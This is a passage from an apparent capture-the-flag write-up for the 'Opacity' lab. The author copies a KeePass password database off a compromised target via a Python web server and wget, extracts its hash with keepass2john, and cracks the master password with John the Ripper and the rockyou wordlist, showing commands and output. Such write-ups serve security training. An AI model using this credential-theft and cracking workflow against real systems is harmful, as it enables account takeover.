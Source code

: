 - I found this interesting file in /opt

![opacity9](https://aymanzerda-sudotime.github.io/images/opacity9.png)

> A KDBX file is a password database created by KeePass Password Safe.

- Let’s start a web server on the target host and download the file to our local machine

``python3 -m http.server``

```r
~ wget http://10.10.95.7:8000/dataset.kdbx
--2024-01-14 00:19:00--  http://10.10.95.7:8000/dataset.kdbx
Connecting to 10.10.95.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1566 (1.5K) [application/octet-stream]
Saving to: ‘dataset.kdbx’

dataset.kdbx                                100%[========================================================================================>]   1.53K  --.-KB/s    in 0.001s  

2024-01-14 00:19:00 (2.40 MB/s) - ‘dataset.kdbx’ saved [1566/1566]

➜  ~ 
```

We were able to download the file.
Let us John the Ripper and crack the hash of the password

```r
keepass2john dataset.kdbx > sysadminhash.txt
➜  ~ eza -l | grep sys* 
.rw-r--r--  322 dcyberguy 14 Jan 00:22 sysadminhash.txt
➜  ~ 
```
I used keepass2john to decrypt the password has and save it in aa file called sysadminhash.txt

Next I will use john to crack the password:
```r
john sysadminhash.txt --wordlist=/usr/share/wordlists/rockyou.txt        
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (dataset)
1g 0:00:00:05 DONE (2024-01-14 00:24) 0.1745g/s 153.5p/s 153.5c/s 153.5C/s chichi..david1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
``user: dataset``
``password: 741852963``

I will use [https://app.keeweb.info/](https://app.keeweb.info/). Just upload the dataset.kdbx file and use the password found to crack the sysadmin password
